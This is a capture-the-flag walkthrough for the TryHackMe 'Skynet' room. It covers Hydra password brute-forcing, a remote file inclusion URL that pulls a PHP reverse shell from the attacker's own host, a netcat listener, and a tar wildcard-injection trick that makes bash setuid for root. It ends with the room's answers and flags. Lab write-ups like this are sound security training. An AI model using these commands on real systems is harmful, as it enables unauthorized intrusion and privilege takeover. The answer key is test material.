

# [Skynet](https://tryhackme.com/r/room/skynet)


[Skynet](https://tryhackme.com/r/room/skynet) is listed as an easy room. A vulnerable Terminator themed Linux machine. An overview of what we’ll be using is listed here:

* Nmap
* Gobuster
* enum4linux
* Hydra
* Searchsploit
* Reverse Shell


## Task 1 - Deploy and compromise the vulnerable machine!


Are you able to compromise this Terminator themed machine?


You can follow our official walkthrough for this challenge on [our blog](https://blog.tryhackme.com/skynet-writeup/).

### Enumeration & Exploit

* Port scan with **Nmap**

	```
	nmap -sC -sV $IP -oN nmap-scan
	```

	

* Directory scan with **Gobuster**

	```
	gobuster dir -u $IP -w /usr/share/wordlists/dirb/big.txt -t50 | tee gobuster-default
	```

	

* Enumeration SMB with **enum4linux**
	
	```
	enum4linux $IP
	```

* Connect to smbclient

	```
	smbclient //$IP/anonymous
	ls
	```

	

* Download and open `attention.txt` file

	

* Change to logs directory and download log file

	

* Brute force login with hydra

	```
	hydra -l milesdyson -P log1.txt $IP http-post-form "/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^:incorrect"
	```

	

* Login to webmail with our credential

	

* Open email `Samba Reset Password` & get the password smb

	

* Connect to smbclient with `milesdyson` credential

	```
	smbclient -U milesdyson //$IP/milesdyson
	```

	

* Download `importart.txt` on noted folder and view the file

	

* Directory scan on a scret page with **Gobuster**

	```
	gobuster dir -u $IP/45kra24zxs28v3yd -w /usr/share/wordlists/dirb/common.txt -t50 | tee gobuster-secret
	```

	

* Open the webpage `http://10.10.33.100/45kra24zxs28v3yd/administrator/`

	

* Searchsploit for `cuppa`

	

* Download `searchsploit` file & Read the file

	```
	searchsploit -m 25971
	```

	

	

* Open `http://revshells.com` and create PHP reverse shell with our machine IP and Port
	
	

* Start Listener on attacker machine

	```
	nc -lvnp 8888
	```

* Start HTTP server to in the folder `revshell.exe`

	```
	python3 -m http.server
	```

	

* Request `revshell.exe` link to get reverse shell

	```
	http://10.10.237.99/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.4.60.166:8000/revshell.php
	```

	

	

	

* Spawn a shell with python

	```
	python -c 'import pty;pty.spawn("/bin/bash")'
	```

	

* Get the `user.txt`

	

* Now let’s see what we have in miles’ home directory

	

* There is a backup script (backup.sh) that compresses the entire /var/www/html directory with tar and saves the archive to miles’ home directory. The script is executed by root every minute, we can see in crontab

	

* We can perfom a wildcard injectioncan to execute a privileged shell with tar executed by root as follows

	```
	cd /var/www/html
	printf '#!/bin/bash\nchmod +s /bin/bash' > shell
	echo "" > "--checkpoint-action=exec=sh shell"
	echo "" >> --checkpoint=1
	```

	

* Wait for 1 minute and executed `/bin/bash -p` and get a root shell

	

* Get the `root.txt`

	

### Answer the questions below

* What is Miles password for his emails?

	`cyborg007haloterminator`

	

* What is the hidden directory?

	`/45kra24zxs28v3yd`

	

* What is the vulnerability called when you can include a remote file for malicious purposes?

	`Remote File Inclusion`

	

* What is the user flag?

	`7ce5c2109a40f958099283600a9ae807`

	

* What is the root flag?

	`3f0372db24753accc7179a282cd6a949`

	


